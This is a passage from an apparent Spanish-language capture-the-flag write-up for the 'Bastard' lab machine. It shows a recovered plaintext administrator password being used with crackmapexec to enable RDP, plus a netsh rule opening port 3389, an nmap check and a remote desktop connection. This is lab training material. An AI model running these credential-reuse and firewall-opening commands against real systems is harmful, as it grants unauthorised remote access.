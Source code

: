 Obtenemos la contraseña en texto plano ``keWNUkrIekw!``.

Habilitar RDP.

Para habilitar el RDP usare ``crackmapexec`` ya que tengo el puerto 445 abierto y netsh.

````bash
❯ cme smb 10.10.10.9 -u 'Administrator' -p 'keWNUkrIekw!' -M rdp -o action=enable
SMB         10.10.10.9      445    BASTARD          [*] Windows Server 2008 R2 Datacenter 7600 x64 (name:BASTARD) (domain:Bastard) (signing:False) (SMBv1:True)
SMB         10.10.10.9      445    BASTARD          [+] Bastard\Administrator:keWNUkrIekw! (Pwn3d!)
RDP         10.10.10.9      445    BASTARD          [+] RDP enabled successfully
`````

````bash
netsh advfirewall firewall add rule name="Puerto TCP 3389" dir=in action=allow protocol=TCP localport=3389
`````

````bash
❯ nmap -p3389 --open -T5 10.10.10.9 -Pn
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-23 23:47 CET
Nmap scan report for 10.10.10.9
Host is up (0.044s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
`````

Usare remmina para establecer una conexion remota.

![imagen-de-prueba](/assets/img/bastard/Captura%20de%20pantalla%20(158).png)
_Image Bastard_